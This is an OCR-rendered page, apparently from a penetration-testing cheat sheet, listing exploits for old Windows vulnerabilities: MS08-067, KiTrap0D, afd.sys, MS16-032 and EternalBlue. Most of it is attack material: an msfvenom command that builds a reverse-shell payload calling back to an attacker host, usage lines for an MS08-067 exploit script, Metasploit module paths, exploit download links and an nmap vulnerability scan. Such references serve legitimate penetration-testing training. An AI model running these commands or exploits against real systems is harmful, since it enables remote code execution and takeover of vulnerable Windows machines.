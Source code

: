exploit/windows/smb/ms08\_067\_netapi

If you can't use Metasploit and only want a reverse shell.

https://raw.githubusercontent.com/jivoi/pentest/master/exploit\_win/ms08-067.py
msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08\_067\_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08\_067\_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 \(445 could also be used\)
Example: MS08\_067\_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08\_067\_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08\_067\_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French \(NX\)
Example: MS08\_067\_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English \(NX\)
Example: MS08\_067\_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English \(AlwaysOn NX\)
python ms08-067.py 10.0.0.1 6 445

MS10-015 \(KiTrap0D\) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

'KiTrap0D' User Mode to Ring Escalation \(MS10-015\)

https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10\_015\_kitrap0d

MS11-080 \(afd.sys\) - Microsoft Windows XP/2003

Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11\_080\_afdjoinleaf

MS16-032 - Microsoft Windows 7 &lt; 10 / 2008 &lt; 2012 R2 \(x86/x64\)

Check if the patch is installed : wmic qfe list \| findstr "3139914"

Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc

MS17-010 \(Eternal Blue\)

Check the vulnerability with the following nmap script.

nmap -Pn -p445 --open --max-hostgroup 3--script smb-vuln-ms17–010 &lt;ip\_netblock&gt;

Metasploit modules to exploit EternalRomance/EternalSynergy/EternalChampion.

auxiliary/admin/smb/ms17\_010\_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb\_ms17\_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17\_010\_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17\_010\_eternalblue\_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17\_010\_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
